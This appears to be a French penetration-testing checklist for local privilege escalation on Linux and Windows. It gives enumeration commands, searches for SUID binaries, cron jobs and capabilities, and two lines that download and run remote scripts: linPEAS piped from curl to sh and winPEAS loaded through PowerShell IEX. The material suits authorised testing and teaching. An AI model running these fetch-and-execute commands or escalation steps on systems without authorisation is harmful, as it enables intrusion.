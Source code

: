  - [ ] Identifier l'utilisateur actuel et ses privilèges
    ```bash
    # Linux
    id
    sudo -l
    
    # Windows
    whoami /all
    net user <username>
    ```
    > *Question*: Quels privilèges ou groupes spéciaux sont attribués à l'utilisateur actuel?
  
  - [ ] Utiliser des scripts d'énumération automatisés
    ```bash
    # Linux
    curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
    
    # Windows
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')
    ```
    > *Question*: Quelles vulnérabilités ou mauvaises configurations ont été identifiées par les scripts?

- [ ] **Élévation de privilèges sur Linux**
  - [ ] Exploiter les binaires SUID
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    > *Question*: Y a-t-il des binaires SUID inhabituels ou mal configurés?
  
  - [ ] Exploiter les tâches Cron
    ```bash
    cat /etc/crontab
    ls -la /etc/cron*
    ```
    > *Question*: Y a-t-il des tâches Cron qui s'exécutent en tant que root et sont modifiables?
  
  - [ ] Exploiter les capabilities
    ```bash
    getcap -r / 2>/dev/null
    ```
    > *Question*: Des binaires ont-ils des capabilities dangereuses comme cap_setuid?
  
  - [ ] Exploiter les vulnérabilités sudo
    ```bash
    sudo -l
    ```
    > *Question*: Pouvez-vous exécuter certaines commandes avec sudo? Peuvent-elles être exploitées via GTFOBins?
  